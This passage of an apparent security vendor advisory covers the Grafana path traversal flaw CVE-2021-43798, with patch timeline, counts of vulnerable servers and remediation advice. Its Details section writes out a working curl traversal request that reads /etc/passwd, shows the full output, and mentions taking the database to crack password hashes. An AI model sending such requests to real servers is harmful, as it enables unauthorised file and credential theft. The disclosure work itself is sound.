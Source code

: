 \## Overview\\n\\nGrafana is a data visualization web application used by thousands of companies, including SalesForce, JPMorgan Chase, Cisco, and \[more\](https://grafana.com/success/?technology=grafana). That’s likely why there was a lot of interest when \[CVE-2021-43798\](https://nvd.nist.gov/vuln/detail/CVE-2021-43798) was \[posted\](https://web.archive.org/web/20211203190716/https://twitter.com/j0v0x0/status/1466845212626542607) to Twitter as a zero-day on December 3, 2021. \\n\\n::check-list\\n---\\ntitle: Key Takeaways\\nico: mdi:check-bold\\nlist:\\n - CVE-2021-43798 was a zero-day for only a short time. Grafana released an official patch on December 7, 2021, just before the Log4Shell hysteria re-prioritized security teams’ remediation efforts.\\n - Over a year later, 7,500 or 8% of Grafana instances indexed by Shodan remain vulnerable.\\n - We looked at a file disclosure vulnerability affecting Grafana and examined how this issue might be used to gain additional access to the affected system.\\n - Exfiltrating the Grafana SQLite database allows attackers to extract password hashes, brute-force them, and, potentially, establish administrative access on the system.\\n - We recommend patching this vulnerability as soon as possible. If your Grafana server was ever affected by this vulnerability, and exposed to the internet, we also recommend rotating all passwords (data source passwords included).\\n---\\n::\\n\\n## Details\\n\\nCVE-2021-43798 allowed a remote and unauthenticated attacker to read arbitrary files on a Grafana server using a simple HTTP request:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl --path-as-is http://10.9.49.222:3000/public/plugins/welcome/../../../../../../../../etc/passwd\\nroot:x:0:0:root:/root:/bin/ash\\nbin:x:1:1:bin:/bin:/sbin/nologin\\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\\nadm:x:3:4:adm:/var/adm:/sbin/nologin\\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\\nsync:x:5:0:sync:/sbin:/bin/sync\\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\\nhalt:x:7:0:halt:/sbin:/sbin/halt\\nmail:x:8:12:mail:/var/mail:/sbin/nologin\\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\\noperator:x:11:0:operator:/root:/sbin/nologin\\nman:x:13:15:man:/usr/man:/sbin/nologin\\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\\ngames:x:35:35:games:/usr/games:/sbin/nologin\\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\\nguest:x:405:100:guest:/dev/null:/sbin/nologin\\nnobody:x:65534:65534:nobody:/:/sbin/nologin\\ngrafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin\\n\`\`\`\\n\\nThe example above shows an attacker reading \`/etc/passwd\` from the victim Grafana. Reading \`/etc/passwd\` is essentially useless for an attacker, but VulnCheck has archived a large number of public CVE-2021-43798 exploits that do exactly that. Those exploits are useless, for anything other than vulnerability scanners and \[bug bounty hunters\](https://hackerone.com/reports/1419213), because they don’t demonstrate a real security impact.\\n\\n\*\*Some\*\* public CVE-2021-43798 exploits have tried to demonstrate real impact. \[Metasploit\](https://github.com/rapid7/metasploit-framework/blob/6727c1b344382fe2e56bb2a1c4343b09e40b64c8/modules/auxiliary/scanner/http/grafana\_plugin\_traversal.rb), for example, uses CVE-2021-43798 to download the server’s \`grafana.ini\` \[configuration file\](https://github.com/grafana/grafana/blob/main/conf/defaults.ini). \`grafana.ini\` can potentially leak interesting secrets (e.g. \[Okta OAuth2\](https://grafana.com/docs/grafana/latest/setup-grafana/configure-security/configure-authentication/okta/) configuration), but a standard install using a default configuration is almost entirely devoid of anything useful to an attacker.\\n\\nCVE-2021-43798 was a zero-day for only a short time. Grafana released an official patch on December 7, 2021. A couple of days later, the security industry became lost to the hysteria of \[Log4Shell\](https://en.wikipedia.org/wiki/Log4Shell​​), and CVE-2021-43798 was pushed to the backburner before fading into obscurity.\\n\\nBut, a bit over a year later, thousands of servers remain vulnerable to CVE-2021-43798. A review of the approximately \[95,000\](https://www.shodan.io/search?query=title%3A%22Grafana%22) Grafana instances indexed by Shodan found that 7,500 (about 8%) are still vulnerable.\\n\\n> Vulnerable Internet-Facing Grafana Instances\\n\\n::bar-chart\\n---\\nlabels:\\n - 8.0.0\\n - 8.0.1\\n - 8.0.2\\n - 8.0.3\\n - 8.0.4\\n - 8.0.5\\n - 8.0.6\\n - 8.1.0\\n - 8.1.1\\n - 8.1.2\\n - 8.1.3\\n - 8.1.4\\n - 8.1.5\\n - 8.1.6\\n - 8.1.7\\n - 8.2.0\\n - 8.2.1\\n - 8.2.2\\n - 8.2.3\\n - 8.2.4\\n - 8.2.5\\n - 8.2.6\\n - 8.3.0\\nvalues:\\n - 213\\n - 121\\n - 143\\n - 482\\n - 352\\n - 321\\n - 687\\n - 180\\n - 401\\n - 729\\n - 270\\n - 107\\n - 518\\n - 120\\n - 58\\n - 255\\n - 440\\n - 577\\n - 526\\n - 186\\n - 447\\n - 206\\n - 296\\n---\\n::\\n\\nCVE-2021-43798 has never been publicly linked to a named adversary. You won’t find it in any threat group reports, botnet rundowns, or the \[CISA KEV Catalog\](https://www.cisa.gov/known-exploited-vulnerabilities-catalog). But it does appear to be actively exploited. \[FortiGuard Labs IP Threat Encyclopedia\](https://www.fortiguard.com/encyclopedia/ips/51075) shows hundreds of CVE-2021-43798 exploitation attempts pers day.